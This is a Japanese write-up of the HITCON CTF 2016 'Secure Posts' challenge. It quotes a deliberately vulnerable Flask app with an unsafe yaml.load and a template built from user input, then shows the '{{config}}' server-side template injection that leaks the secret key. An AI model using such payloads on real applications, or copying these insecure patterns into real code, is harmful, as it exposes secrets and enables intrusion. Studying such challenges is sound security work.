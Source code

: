 # 問題文

```
Secure Posts

Description
Here is a service that you can store any posts. Can you hack it?
```

# 概要
書籍に関するコメントを投稿するサービスが動いているサーバーからflagを回収する。

# 問題のサーバーにアクセス
すると、コメント投稿部分を持つアプリが動いている。
またソースコードへのリンクがあるので、そこからサーバーアプリのコードを読む。

* python、flaskで出来ている
* json, yamlのどちらかで、コメントを投稿して表示するアプリ
* pickle, evalは、危険だという事で、使えなくなるようにコメントアウトされている
* yamlがユーザーの入力をそのままdumpしたりloadしているので、おそらく狙えるポイントの一つ
* 他にも以下のnameのように、ユーザー入力がそのままrenderされている部分がある

```py
(省略)
# init app
app = Flask(__name__)
app.secret_key = config.flag1
accept_datatype = ['json', 'yaml']
(省略)

def load_yaml(data):
    import yaml
    return yaml.load(data)
(省略)

def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)
(省略)

def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }

    datatype = session.get("post_type", config.default_datatype)
    data = session.get("post_data", config.default_data)

    if datatype not in handlers: abort(403)
    return handlers[datatype](data)
```

flaskには、どうやらrender時にユーザー入力が来ていると困る場面があるらしい
* [Injecting Flask](https://nvisium.com/blog/2015/12/07/injecting-flask/)
* [Exploring SSTI in Flask/Jinja2](https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2/)

とはいえ、今回はname部分は10文字しか入らないので、大した事は出来ない。
とりあえず、設定でも見てみようと、Authorに以下を入力して投稿する。(コード上では、nameにAuthorの値が入るため）

```
{{config}}
```

すると、以下のようにalertが表示される。

<img src="https://github.com/Route9/ctf-writeup/raw/master/hitcon_ctf2016/SecurePosts1/get_alert.png" width="320px">

あとは、OKを押すと、Author部分に以下のようにflagが入って返ってくる。

```
<Config {'SESSION_COOKIE_SECURE': False, 'DEBUG': False, 'SESSION_COOKIE_NAME': 'session', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PREFERRED_URL_SCHEME': 'http', 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SERVER_NAME': None, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'TRAP_HTTP_EXCEPTIONS': False, 'MAX_CONTENT_LENGTH': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_AS_ASCII': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SESSION_COOKIE_DOMAIN': None, 'USE_X_SENDFILE': False, 'APPLICATION_ROOT': None, 'SESSION_COOKIE_HTTPONLY': True, 'LOGGER_NAME': 'post_manager', 'SESSION_COOKIE_PATH': None, 'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}', 'JSON_SORT_KEYS': True}>
```

# flag

```
hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}
```

# Secure Posts2は解けず・・・。
同一サーバー、同一問題文だったので、おそらく別の解法で、app.secret_keyを表示すると推測。
『yaml, eval, シリアライズ, open辺りは狙い目になる事が多いし、このコードだとyamlかな〜？』と以下のページを見て試行錯誤をしていたが、うまくいかず。。。

* [Dangerous Python Functions, Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
